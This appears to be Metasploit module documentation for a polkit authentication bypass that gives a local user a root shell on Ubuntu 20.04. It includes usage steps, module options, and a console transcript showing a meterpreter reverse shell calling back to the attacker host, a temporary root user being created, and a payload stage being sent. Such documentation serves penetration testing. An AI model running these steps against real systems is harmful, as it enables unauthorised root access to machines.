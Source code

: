 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

This exploit needs be run from an SSH or non-graphical session. The `dbus-send` command which is used to trigger the exploit,
launches an authentication agent. When run from a graphical session, an authentication agent pops up in the form of a
dialog box and waits for user input. This dialog box will cause the dbus-command to time out waiting for user input and
will prevent successful exploitation of polkit

If `systemd` is installed on the system the session service type can be checked by running: `loginctl session-status`. 
The following output (x11) indicates a graphical session is being run and the exploit will not work:

`Service: gdm-password; type x11; class user`

The following output (tty) indicates a non-graphic session is being used and the exploit is likely to be successful:

`Service: sshd; type tty; class user`

## Vulnerable Application
This module has been tested successfully on:

* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail. If this happens, increase the value of the ITERATIONS option to attempt the exploit more times before failing and attempt the exploit again.
8. Enjoy the shell.

## Options

**SESSION**
The session to run this module on.

**USERNAME**
The name of the user the exploit will add to the system

**PASSWORD**
The password for the user to be created

**WritableDir**
Directory to write file to (`%TEMP%` by default).

## Scenarios

### Tested on Ubuntu 20.04
```
msf6 > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443
[*] Executing automatic check (disable AutoCheck to override)
[*] Checking for exploitability via attempt
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution has root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added:
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
